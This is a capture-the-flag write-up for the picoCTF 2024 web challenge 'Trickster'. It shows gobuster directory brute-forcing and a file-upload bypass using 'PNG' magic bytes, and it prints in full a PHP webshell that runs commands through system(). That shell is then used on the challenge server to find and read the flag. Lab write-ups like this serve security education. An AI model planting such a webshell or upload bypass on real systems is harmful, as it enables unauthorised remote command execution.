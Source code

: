 
# picoCTF 2024: Trickster
---
Tags: Web Exploration, browser_webshell_solvable

![](/Web_Exploitation/Trickster(WebShell)/img/question.png)

### Description
I found a web app that can help process images: PNG images only!

---
From the challenge link, we are directed to an image upload features website
![](/Web_Exploitation/Trickster(WebShell)/img/webview.png)

---
Here, we are using "Gobuster-tool" to peform **URLs and DNS brute force attack** for extracting directories and files form inside URLs and sub-domains.   
![](/Web_Exploitation/Trickster(WebShell)/img/cmdline1.png)
```
gobuster dir -u http://atlas.picoctf.net:58140 -w /usr/share/wordlists/dirb/common.txt
```

gobuster *dir* *-\<options(target_url)>* *\<url>* -*\<options(wordlist_path)>* *\<path>*  
![](/Web_Exploitation/Trickster(WebShell)/img/gobustercmd.png)

We head to /robots.txt and it leads me to /instructions.txt  
![](/Web_Exploitation/Trickster(WebShell)/img/robottxt.png)  
The /instructions.txt  
![](/Web_Exploitation/Trickster(WebShell)/img/instructiontxt.png)  
- From /instructions.txt, we know that the file we upload needs to have .png extension and the first few bytes contain 'PNG' magic bytes in hexadecimal "50 4E 47"
- From gobuster promts, we could guess that file uploaded will be saved at /uploads folder
- By knowing these informations, we can download web shell from [easy-simple-php-webshell.php](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985)
- The php webshell generate a CLI for us to execute commands on the server remotely.
- Ensure that the server do checks the first few characters to be "PNG", so we must put them at the beginning of the code:
```
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

---
And so I uploaded the phpWebshell.png.php file  
![](/Web_Exploitation/Trickster(WebShell)/img/phpWebshell.png)  
The file is successfully checked, and server tells us "We shall process it"
From the guess previously, we know that the webshell file might now be stored at  /uploads directory.

We try to access the uploaded webshell file  
![](/Web_Exploitation/Trickster(WebShell)/img/uploadfolder.png)  
Starting off here, we can search the flag in the system however we want, using the webshell injected, we can use the command:
```
find / -name "*.txt"
```
to search the root folder, with files that end with ".txt" extension at the server side  
![](/Web_Exploitation/Trickster(WebShell)/img/findName.png)  
Click on "Execute"  

![](/Web_Exploitation/Trickster(WebShell)/img/flagText.png)  
We found the text file, try to *concatenate* it
```
cat /var/www/html/GQ4DOOBVMMYGK.txt
```
![](/Web_Exploitation/Trickster(WebShell)/img/concatenate.png)  
Click on "Execute"  

![](/Web_Exploitation/Trickster(WebShell)/img/flag.png)  
The flag has been found!

### Mind Map  
![](/Web_Exploitation/Trickster(WebShell)/img/mindMap.png)  

